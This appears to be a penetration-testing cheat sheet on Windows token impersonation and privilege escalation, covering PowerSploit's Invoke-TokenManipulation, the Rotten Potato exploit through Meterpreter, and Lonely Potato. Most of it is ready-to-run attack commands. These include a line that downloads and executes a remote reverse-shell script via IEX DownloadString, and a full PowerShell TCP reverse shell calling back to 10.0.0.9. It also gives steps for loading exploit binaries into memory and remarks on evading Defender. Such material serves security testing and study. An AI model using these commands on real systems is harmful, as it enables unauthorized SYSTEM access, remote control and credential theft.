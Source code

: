 ## Token Impersonation

Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

##### Powershell
We can do token impersonation directly in powershell with a completely legitimate module. This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating.

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1


Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`
`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`



### Rotten potato exploit
The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See [Foxglove security's writeup](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) of the exploit for more detail.

##### Meterpreter
Get a meterpreter shell as a service account and upload rot.exe to the box.

`getuid` - shows who you are, like `whoami`
`getprivs` - shows you available tokens for impersonation
`getsystem` - allows SYSTEM token impersonation directly in meterpreter if local admin
`use incognito` - loads an extension that allows token impersonation
`list_tokens -u` - lists available impersonation and delegation tokens

Now this is not very nice, but upload the exploit to disk
Now you can use meterpreter's feature of executing binaries straight into memory and if that doesn't work upload it to disk as a dll and use rundll32 to execute it.

`execute -H -c -m -d calc.exe -f /root/rot.exe`
`upload rot.dll "c:\temp\rot.dll"`
`execute -H -c -f "rundll32 c:\temp\rot.dll,Main`
Now do `list_tokens -u` again, and an impersonation token for SYSTEM should be available.
You can then impersonate using 
`impersonate_token "NT AUTHORITY\SYSTEM"`

Congratulations, you are now system


#### Lonely potato
https://decoder.cloud/2017/12/23/the-lonely-potato/
https://github.com/decoder-it/lonelypotato

I did this on Windows 10 with Defender and nothing triggered. You could probably implement a better obfuscated reverse shell if you like.

Make a powershell reverse shell and put it in a file `test.bat`. 
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.9',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Upload it to the target machine on `c:\windows\temp\test.bat`. The directory doesn't really matter, this is just an example.


Upload MSFRottenPotato.exe to your target machine. Now depending on what token privs you have you can use this exploit. So enumerate your token privs with:

`whoami /priv`

If you only have `SeImpersonatePrivilege` you can use the `CreateProcesAsUser, (t)` argument. If you have both `SeImpersonatePrivilege` and `SeAssignPrimaryToken` you can use `CreateProcessWithTokenW, (*)` argument.

Set up your listener in empire, metasploit, netcat or whatever you prefer.

Execute it with
```
c:\windows\temp\MSFRottenPotato.exe t c:\windows\temp\test.bat
 ````